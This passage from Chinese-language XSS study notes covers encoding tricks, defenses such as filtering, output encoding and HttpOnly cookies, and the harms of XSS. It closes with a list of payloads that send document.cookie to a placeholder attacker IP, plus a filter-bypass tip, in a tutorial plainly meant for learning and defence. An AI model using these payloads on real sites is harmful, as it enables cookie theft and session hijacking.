> 对于一些控制字符，使用特殊的C类型的转义风格，如\n和\r

### HTML实体编码

#### 命名实体

以&开头，以分号结尾的，如<的编码为&1t;

#### 字符编码

十进制，十六进制的ASCII码或者Unicode字符编码。样式为&#数值;

如<的编码为

<(10进制)

<(16进制)

### URL编码

这里为url全编码，也就是两次url编码

如alert的url全编码为%25%36%31%25%36%63%25%36%35%25%37%32%25%37%34

### String.fromCharCode编码

如alert的编码为String.fromCharCode(97,108,101,114,116)

## 十、XSS的防御

### 使用XSS Filter

#### 1、输入过滤

1. 输入验证

   对用户提交的数据进行有效验证，仅接受指定长度范围内的，采用适当格式的内容提交，阻止或者忽略除此以外的其他任何数据。

   常见的检测或过滤：

> 输入是否仅仅包含合法的字符
>
> 输入字符串是否超过最大长度的限制
>
> 输入如果为数字，数字是否在指定的范围内
>
> 输入是否符合特定的格式要求，如邮箱、电话号码、ip地址等

2、数据消毒

除了在客户端验证数据的合法性，输入过滤中最重要的还是过滤和净化有害的输入，例如如下常见的敏感字符：

||<> ' "&# javascript expression

#### 2、输出编码

对输出的数据进行编码，如HTML编码，就是让可能造成危害的信息变成无害。

#### 白名单和黑名单

### 定制过滤策略

### web安全编码规范

### 防御DOM-Based XSS

两点注意点：

1. 避免客户端文档重写、重定向或其他敏感操作，同时避免使用客户端数据，这些操作尽量在服务端使用动态页面来实现。
2. 分析和强化客户端Javascript代码，尤其是一些受到影响的Dom对象

### 其他防御方式

#### Anti_XSS

微软开发的，.Net平台下的，用于方式XSS攻击的类库，它提供了大量的编码函数来对用户输入的数据进行编码，可以实现基于白名单的输入的过滤和输出编码。

#### HttpOnly Cookie

当Cookie在消息头中被设置为HttpOnly时，这样支持Cookie的浏览器将阻止客户端Javascript直接访问浏览器中的cookies，从而达到保护敏感数据的作用。

#### Noscript

Noscript是一款免费的开源插件，该插件默认禁止所有脚本，但可以自定义设置允许通过的脚本。

#### WAF

使用WAF，比如软WAF，硬WAF、云WAF等。

### XSS 定义

跨站脚本攻击是一种注入，其中恶意脚本被注入到其他良性和受信任的网站中。XSS攻击发生在攻击者使用WEB应用程序发送恶意代码时，通常是以浏览器端脚本的形式发送给别人。XSS常发生在没有对用户的输入进行验证或者编码就对用户的输入进行了输出的地方。

一个攻击者可以使用XSS发送一个恶意脚本给用户，但是用户的浏览器无法分辨此脚本是否是值得信任的，从而会执行攻击者发送的恶意脚本。因为浏览器认为脚本来自于一个受信任的源，从而恶意脚本可以访问任何cookies,session tokens 或者是其他保存在浏览器当前网站中的敏感信息。这些脚本甚至可以修改网页的内容。


### XSS 漏洞产生的原因

形成XSS漏洞的主要原因是**程序对输入和输出的控制不够严格，导致“精心构造”的脚本输入后，在输到前端时被浏览器当作有效代码解析执行从而产生危害。**

### XSS 会造成哪些危害

攻击者通过Web应用程序发送恶意代码，一般以浏览器脚本的形式发送给不同的终端用户。当一个Web程序的用户输入点没有进行校验和编码，将很容易的导致XSS。

```
1、网络钓鱼，包括获取各类用户账号
2、窃取用户cookies资料，从而获取用户隐私信息，或利用用户身份进一步对网站执行操作；
3、劫持用户（浏览器）会话，从而执行任意操作，例如非法转账、强制发表日志、电子邮件等
4、强制弹出广告页面、刷流量等
5、网页挂马；
6、进行恶意操作，如任意篡改页面信息、删除文章等
7、进行大量的客户端攻击，如ddos等
8、获取客户端信息，如用户的浏览历史、真实p、开放端口等
9、控制受害者机器向其他网站发起攻击；
10、结合其他漏洞，如csrf，实施进步危害；
11、提升用户权限，包括进一步渗透网站
12、传播跨站脚本蠕虫等
```


### 如何避免跨站脚本漏洞


### XSS 的常用 payload

#### img 标签

```


```


```php
<script>window.open('http://你的公网ip:端口号/'+document.cookie)</script>

<script>var img = document.createElement("img");img.src = "http://你的公网ip:端口号/?cookie="+document.cookie;</script>

<script>window.location.href='http://你的公网ip:端口号/'+document.cookie</script>

<script>location.href='http://你的公网ip:端口号/'+document.cookie</script>

<input onfocus="window.open('http://你的公网ip:端口号/'+document.cookie)" autofocus>

<svg onload="window.open('http://你的公网ip:端口号/'+document.cookie)">

<iframe onload="window.open('http://你的公网ip:端口号/'+document.cookie)"></iframe>

<body onload="window.open('http://你的公网ip:端口号/'+document.cookie)">

```


### XSS 过滤绕过

#### 过滤了空格

可以使用斜杠 / 来绕过


### 参考链接

[freebuf](https://www.freebuf.com/articles/web/289263.html)

[浅谈XSS](https://xz.aliyun.com/t/9424)

[dvwa的XSS详解](https://blog.csdn.net/weixin_50464560/article/details/114782337)

[OWASP](https://owasp.org/www-community/attacks/xss/)

